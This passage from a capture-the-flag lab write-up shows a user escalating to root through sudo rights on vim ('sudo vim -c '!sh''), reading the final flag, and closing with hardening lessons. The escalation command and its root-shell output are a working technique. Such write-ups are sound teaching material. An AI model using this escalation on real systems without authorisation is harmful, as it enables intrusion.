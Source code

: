 So we see the user `mitch` can run `vim`. Let’s run `vim` to escalate our privilege via a bash shell.

```console
$ sudo vim -c '!sh'

# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
#
```

Now we can navigate to the root directory and retrieve the final flag.

```console
# cd /root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
#
```

## Conclusion
---

So what can we learn from this?

- We get a feel for how CTFs work and what flags are
- Make sure the system and services are up to date
- Enforce strong passwords
- Be aware of binaries that can be executed as system or root

